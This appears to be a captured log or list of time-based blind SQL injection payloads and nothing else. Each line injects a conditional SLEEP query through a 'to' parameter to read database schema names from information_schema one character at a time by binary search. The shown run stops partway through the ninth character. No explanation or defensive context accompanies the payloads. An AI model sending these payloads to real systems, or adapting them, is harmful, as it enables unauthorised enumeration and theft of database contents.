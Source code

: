 {to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>116,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=114,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=109,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=98,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>98,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=97,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>96,SLEEP(0.155797244898),SLEEP(0))}